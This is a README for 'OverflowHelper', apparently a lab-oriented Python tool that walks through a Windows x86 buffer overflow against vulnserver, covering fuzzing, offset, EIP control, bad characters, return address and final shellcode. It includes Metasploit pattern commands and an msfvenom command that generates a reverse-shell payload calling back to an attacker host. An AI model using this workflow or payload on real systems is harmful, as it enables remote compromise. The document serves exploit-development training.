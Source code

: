 # OverflowHelper
OverflowHelper aids in buffer overflow development on Windows x86 architecture. This script was tested on vulnserver on 32-bit a Windows 7 machine.

## Usage:

Clone repository:
```
git clone https://github.com/rhuss623/OverflowHelper.git
```

Change permissions:
```
cd OverflowHelper
chmod u+x overflow_helper.py
```

Execute script with arguments (described in "Help")
```
python overflow_helper.py
```
Further instructions are enumerated in the "help" instructions (provided below). 

Note that several sections of the script require hard-coded revision, including:
The subtraction of bad characters frrom the badchars payload in program #4 and the final shell payload in program #6 

## Help:

Here follows the "help" instructions, accessible via `-h`


Buffer Overflow Helper

positional arguments:
  host              Remote target host, e.g. 10.10.1.14
  port              Remote target port, e.g. 9999
  function          Function used in buffer overflow attempt, e.g. TRUN
  program           Enter a number, 1-6, as argument: 
  ```
                    
                    1. Fuzzing 
                    2. Identifying Offset 
                    	REQUIRES -pattern 
                    3. Overwriting EIP 
                    	REQUIRES -offset
                    4. Identify Bad Characters 
                    	REQUIRES -offset
                    5. Return Address 
                    	REQUIRES -offset && -ret
                    6. Final Payload 
                    	REQUIRES -offset && -ret && -pay
                    
                    ********************************
                    Suggested additional resources:
                    
                    Pattern creation (Identifying offset):
                    	pattern_create.rb
                    	pattern_offset.rb
                    
                    Locating return address:
                    	mona.py
                    	nasm_shell.rb
                    
                    Creating payload:
                    	msfvenom 
                    ********************************
                    
                    Happy Hacking you Hackney Hip-Swaying Hokey Pokers :)
                    


optional arguments:
  -h, --help        show this help message and exit
  -pattern PATTERN  Use w/ PROGRAM 2

                    
                    Pattern created using pattern-create.rb
                    
                    On kali, this is the output from: 
                    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number from fuzzing phase> 
                    
                    To identify the offset, enter the characters in EIP into:
                    
                    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <number> -q <EIP characters>
                    
  -offset OFFSET    Use w/ PROGRAMS 3, 4, 5, and 6
                    
                    Offset value: e.g. 2020
                    
  -ret RET          Use w/ PROGRAMS 5 and 6
                    
                    Enter return address as it will be entered in EIP
                    
                    e.g.,for return address 625011af, one might enter \\xaf\\x11\\x50\\x62
                    
  -pay PAY          Use w/ PROGRAM 6
                    
                    Enter shellcode
                    
                    e.g. Output from command:
                    
                    msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.147 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "<INSERT BAD CHARS HERE e.g. null byte: \x00>"
                    
  -nops NOPS        Use w/ PROGRAM 6
                    
                    Enter number of nops preceding payload, e.g. 32
                
  ```
